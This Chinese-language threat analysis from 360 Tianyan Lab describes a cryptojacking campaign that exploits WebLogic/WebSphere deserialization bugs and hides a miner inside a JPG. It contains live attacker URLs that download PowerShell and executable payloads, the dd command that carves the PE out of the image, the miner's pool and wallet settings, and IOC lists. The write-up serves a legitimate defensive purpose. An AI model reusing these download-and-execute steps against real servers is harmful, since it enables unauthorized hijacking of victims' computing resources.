 
# 【技术分享】利用服务器漏洞挖矿黑产案例分析


                                阅读量   
                                **183138**
                            
                        |
                        
                                                                                    



**[![](./img/85699/t01a245a088c8999a9f.png)](./img/85699/t01a245a088c8999a9f.png)**

**<br>**

**作者：360天眼实验室<br>**

**概述**

BAT代表了利用互联网发财的光鲜一面，与之相对的黑暗面的黑产也会穷尽自己的想象力来最大化自己的收益，在这方面黑产可谓八仙过海，各显其能。有窃取数据转卖实现财务自由的，及时收手的落得这辈子吃喝不愁，贪得无厌的在近期日益严厉的打击下最后吃了牢饭。除了在数据上打主意，我们看到也有通过榨取设备计算能力发些小财的，近期，天眼实验室跟踪了一些通过利用这些NDay漏洞攻击服务器获取控制自动化植入挖矿木马的团伙，给大家分析一个真实的案例。

希望这次的小小暴光能引起某些管理员的警醒，检查一下自己的服务器是否存在漏洞，清除已经存在于机器中的恶意代码（如果存在漏洞几乎可以肯定已经被入侵控制），保障数据和服务的安全。

基于Java的Web应用服务器曾经出过几个非常好用的远程命令执行漏洞，比如以下这两个：

**CVE-2015-7450**

IBM WebSphere Java Comments Collections组件反序列化漏洞

**CVE-2015-4852**

Oracle WebLogic Server Java反序列化漏洞

漏洞细节就不在这儿分析了。尽管技术细节和利用工具已经公开了差不多2年，但目前互联网上还存在着大量有这些漏洞的Web服务器，而这些服务器迟早会沦为攻击者的猎物。至于被控制后的机器会给用来做什么完全就在于攻击者的意愿，有数据的必然会被窃取倒卖，除此以外，服务器一般都有非常好的硬件配置，海量的存储、高速的CPU和网络连接，而现在比特币的价格处于相对的高位，拿服务器来挖矿充分利用其计算能力也算黑产一鸡多吃造福自己的途径。

<br>

**案例**

黑产扫描IP段发现开放特定的端口的服务器，确认存在漏洞的Web应用服务器，利用漏洞控制服务器后下载一张包含挖矿恶意程序的图片，解析执行，将服务器转变为一台挖矿的肉鸡。

[![](./img/85699/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t012060a3ac25590fe7.png)

样本来源于我们架设的蜜罐，服务器开放了WebLogic服务，http://xxx.xx.xx.xxx:7001/ ：

[![](./img/85699/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t014c938752304abe97.png)

日志分析显示攻击者利用了存在于WebLogic应用服务器中的Java反序列化漏洞攻破了该服务器。获得控制以后，攻击者首先执行一个了脚本，该脚本用于下载执行一个名为regedit.exe程序，此程序会调用powershell.exe去执行如下的powershell脚本：

[![](./img/85699/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01988498acd4be65d4.png)

powershell代码如下图所示：

[![](./img/85699/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01299920fd32ecf024.png)

脚本首先会去开源的网站去下载工具程序dd.exe，用它来写文件，对于大多数主防杀软而言，dd.exe会被标记为白文件，因此使用该工具可以绕过部分检测操作，下图为dd.exe的介绍：

[![](./img/85699/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01e02b2ecd94de3058.png)

脚本还会去[https://ooo.0o0.ooo/2017/01/22/58842a764d484.jpg](https://ooo.0o0.ooo/2017/01/22/58842a764d484.jpg)  去下载一张jpg图片：

[![](./img/85699/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t015d6d9deeb6aa4ef0.png)

而[https://ooo.0o0.ooo/](https://ooo.0o0.ooo/)  这个网站本身是一个host，可以为用户上传的文件提供外链地址：

[![](./img/85699/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01420dc32c487b10bb.png)

网站的界面如图，上传的最大的文件限制为5MB：

[![](./img/85699/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01431a61b790987089.png)

下载回来的图片大小为1.44M，这当然不仅仅一张图片：

[![](./img/85699/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01ae5919aad27db7f7.png)

分析发现，该图片偏移0xd82（3458）处开始为一个PE文件：

[![](./img/85699/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01e2084f62b1631e5b.png)

最后脚本调用dd.exe把图片中的PE文件提取出来，并命名为msupdate.exe：dd.exe if=favicon.jpg of=msupdate.exe skip=3458 bs=1 。

分离出来的PE是个自解压文件； 

[![](./img/85699/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01eb6e794d5b40a872.png)

运行解压后会去执行msupdate.exe：

[![](./img/85699/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01fc97abeaef080dd1.png)

msupdata.exe本身还是个自解压文件：

[![](./img/85699/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01e476b4c2b042acda.png)

注释为一个命令行参数，是矿池和比特币钱包地址：

[![](./img/85699/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01f5efd7fe0e3b14b1.png)

如下包含自解压脚本命令：



```
Setup=msupdate.exe -a cryptonight -o stratum+tcp://xmr.crypto-pool.fr:3333 -u 49hNrEaSKAx5FD8PE49Wa3DqCRp2ELYg8dSuqsiyLdzSehFfyvk4gDfSjTrPtGapqcfPVvMtAirgDJYMvbRJipaeTbzPQu4 -p x
TempMode
Silent=1
```

最终，解压出一个挖矿程序，并以之前的矿池和比特币钱包地址启动该挖矿程序：

[![](./img/85699/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01a6aabac66810665f.png)

整个攻击流程如下：

[![](./img/85699/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01e2d323bcd4003dbb.png)

另外我们还发现一种脚本：

利用WebLogic漏洞去下载如下链接的powershell脚本：

```
http://45.33.56.197:43110/19pdroifAf1QR84u1yoG7J1ASwmc9r32nU/images/miner.ps1
```

脚本内容如下图：

[![](./img/85699/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01f91337b7d038b3e5.png)

它会下载yam.exe，然后把该脚本添加计划任务每6个小时运行一次该脚本，确保恶意代码长期在服务器中运行。

下载下来的exe文件的链接是：

```
http://45.33.56.197:43110/19pdroifAf1QR84u1yoG7J1ASwmc9r32nU/images/yam.exe
```

下载下来的文件如图：

[![](./img/85699/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0153969d36fa906f07.png)

下图是脱壳后的字符串，不难看出是挖矿的代码：

[![](./img/85699/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t019c58841d038bf42c.png)

<br>

**影响面分析**

根据分析得到的网络特征进行匹配，定位到最近一个月被此类恶意代码感染的机器超过20000台，对挖矿工作来说构成颇为可观的算力。对IP来源做统计发现95%以上的都是国内的，反映出国内服务器安全管理还任重而道远：

[![](./img/85699/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t012e7ff9557afd28ba.png)

按国内的省份分布看，黑龙江、湖北、河南、广东、四川是重灾区：

[![](./img/85699/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01a2b392f82d8d0933.png)

<br>

**小结**

黑产对于利益的追逐永远没有止境，它们会”充分”榨取所能得到的一切资源的价值，做到”物尽其用”，我们必须采取一切必要的措施来保护自己，绝不可能侥幸于对手的懒惰。

<br>

**IOC**

**URL**

http://txrdr.com/sitecontent/WIN-WEB.jpg

https://ooo.0o0.ooo/2017/01/22/58842a764d484.jpg

http://45.33.56.197:43110/19pdroifAf1QR84u1yoG7J1ASwmc9r32nU/images/miner.ps1

http://45.33.56.197:43110/19pdroifAf1QR84u1yoG7J1ASwmc9r32nU/images/yam.exe

**文件名**

WIN-WEB.jpg

rsyslog.exe

**矿工的用户名**

1140***588@qq.com

szt***885@163.com

att***65@163.com

ca***577@gmail.com

a4***7226@qq.com

y5***52@qq.com

nan***lsia@yandex.ru
